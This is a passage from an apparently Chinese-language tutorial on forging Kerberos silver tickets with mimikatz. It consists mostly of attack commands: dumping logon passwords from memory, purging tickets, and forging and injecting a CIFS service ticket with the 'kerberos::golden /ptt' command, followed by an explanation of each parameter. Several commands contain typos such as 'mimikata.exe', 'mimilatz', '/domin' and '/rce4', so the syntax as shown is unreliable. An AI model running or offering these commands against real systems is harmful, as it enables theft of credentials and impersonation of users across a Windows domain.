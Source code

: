 ```bash
# mimikata.exe "privilege::debug"  "sekurlsa::logonpasswords" "exit" > log.txt
```

[![image-20220517202540448.png](assets/1698894253-54bfa44da5a8259b5bb98bffa5176e71.png)](https://storage.tttang.com/media/attachment/2022/06/17/22097384-83ec-4b75-9bc3-7d65aaaaf39f.png)

先使用 mimikatz 清空票据 再导入伪造的票据

```bash
mimikatz # kerberos::purge  //清空票据
```

伪造白银票据

```bash
mimilatz # kerberos::golden /domin:cyber.com /sid:S-1-5-................  /target:scene.ctber.com /service:cifs /rce4:................. /user:test /ptt 


/domain   当前域名称
/sid    SID 值，和金票一样取前一部分
/target  目标主机  
/service  服务名称 这里需要访问共享文件 所以是 cifs
/rce4  目标主机的 Hash 值
/user  伪造的用户名
/ptt   表示的是 Psss TheTicket 攻击，是把生成的票据导入内存，也可以使用、ticket 导出之后再使用 kerberos::ptt 来导入
```

可以通过 klist 命令查看当前会话的 kerberos 票据可以看到生成的票据
